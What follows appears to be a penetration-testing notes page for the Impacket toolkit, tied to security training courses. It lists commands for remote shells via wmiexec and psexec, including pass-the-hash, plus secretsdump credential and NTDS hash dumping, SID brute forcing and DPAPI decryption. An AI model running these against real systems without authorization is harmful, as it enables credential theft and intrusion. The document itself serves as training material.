 # impacket

[![windowsprivesc20](../../../../cybersecurity/_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-lg-2"><div>

[impacket](https://github.com/fortra/impacket) <small>(12.7k ⭐)</small> is a collection of [python](/programming-languages/high-level/scripting/python/index.md) classes for working with network protocols. They are already installed on Kali:

```shell!
$ impacket-secretsdump -h # Example of calling a script
```

You could also install them using `pipx`:

```shell!
$ pipx install git+https://github.com/fortra/impacket
$ secretsdump.py -h # Example of calling a script
```
</div><div>

You may also want to install them manually <small>(dirty/may not work)</small>:

```shell!
$ DEST="$HOME/tools/impacket"
$ git clone -b "master" "https://github.com/fortra/impacket" $DEST
$ pip install --user -r $DEST/requirements.txt
$ pip install --user $DEST
$ python $DEST/examples/secretsdump.py [...]
```

📚 You can refer to [thehacker.recipes](https://tools.thehacker.recipes/impacket) for a list of scripts.
</div></div>

<hr class="sep-both">

## Impacket Overview

<div class="row row-cols-lg-2"><div>

#### Impacket 'target' parameter

Most scripts operating require a **target** such as `username@IP`. You can specify the password within the command.

```shell!
$ impacket-xxx username@IP
$ impacket-xxx username@IP -no-pass
$ impacket-xxx username:password@IP
$ impacket-xxx username:password@IP -windows-auth
$ impacket-xxx domain/username:'password'@IP
```

`-windows-auth` can be specified to indicate that we want to use local authentication <small>(`.\username`)</small> instead of Active Directory authentication.
</div><div>

#### Impacket Alternative Logins

On Linux, as per to these [notes](/operating-systems/cloud/active-directory/security/index.md#active-directory-on-linux), you can log in to active directory and get a TGT ticket. To use it with impacket tools, use `-k` and `-no-pass`.

```shell!
$ impacket-xxx DC01.example.com -no-pass -k
```
</div></div>

<hr class="sep-both">

## Impacket Clients

<div class="row row-cols-lg-2"><div>

#### mssqlclient

Connect to a MSSQL database.

```shell!
$ impacket-mssqlclient username@IP -windows-auth
$ impacket-mssqlclient username:password@IP -windows-auth
SQL> exit
```

#### smbclient

Connect to a SMB server.

```shell!
$ impacket-smbclient 'username':'password'@IP
$ impacket-smbclient IP
smbclient> shares
smbclient> use share_name
smbclient> ls
smbclient> tree
```
</div><div>

#### wmiexec

Pop a semi-interactive shell using [DCOM](/operating-systems/networking/protocols/dcom.md). It runs commands as Local Administrator if possible, but creates a new process per command.

```shell!
$ impacket-wmiexec -shell-type powershell username:password@IP
$ impacket-wmiexec -shell-type powershell username:password@IP "hostname"
```

#### psexec

Pop a semi-interactive remote shell using RemComSvc. It runs commands as SYSTEM to it's quite suspicious and making noise.

```shell!
$ impacket-psexec username:password@IP
$ impacket-psexec [...] -hashes lmhash:nthash
$ impacket-psexec [...] -hashes :nthash
$ impacket-psexec [...] -target-ip 172.16.5.5
```
</div></div>

<hr class="sep-both">

## Impacket Servers

<div class="row row-cols-lg-2"><div>

#### smbserver

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Run a [SMB](../smb.md) server to which user will connect with the username XXX and the password YYY. Files will be stored in `/path/to/share`.

```shell!
$ impacket-smbserver -smb2support share_name /path/to/share
$ impacket-smbserver -smb2support -username XXX -password YYY share_name /path/to/share
$ impacket-smbserver -smb2support -username username -password password share .
```
</div><div>
</div></div>

<hr class="sep-both">

## Windows Utilities

<div class="row row-cols-lg-2"><div>

#### secretsdump

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Dump hashes from a backup of SAM and SYSTEM hashes. There are local credentials and domain cached credentials.

```shell!
$ impacket-secretsdump -sam XXX -system YYY LOCAL
$ impacket-secretsdump -sam XXX -security XXX -system XXX LOCAL
$ impacket-secretsdump -system ./system.hive -ntds ./ntds.dit LOCAL
<output format is explained in the output>
```

You can remotely dump hashes using:

```shell!
$ impacket-secretsdump domain/username:password@target
$ impacket-secretsdump [...] -just-dc # ???
$ impacket-secretsdump [...] -just-dc-user 'example.com/username'
$ impacket-secretsdump [...] -outputfile hashes
```
</div><div>
</div></div>

<hr class="sep-both">

## Impacket MS-RPC Utilities

<div class="row row-cols-lg-2"><div>

Refer to [MS-RPC](/operating-systems/networking/protocols/rpc.md#rpc-smb-footprinting).

#### samrdump

List users and domains.

```shell!
$ impacket-samrdump IP
$ impacket-samrdump username:password@IP
```

#### lookupsid

Expose the domain SID and groups/usernames RID using brute force.

```shell!
$ impacket-lookupsid username:password@IP
$ impacket-lookupsid -domain-sids username:password@IP
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```shell!
$ impacket-dpapi unprotect -file xxx -key "xxx"
```
</div><div>
</div></div>
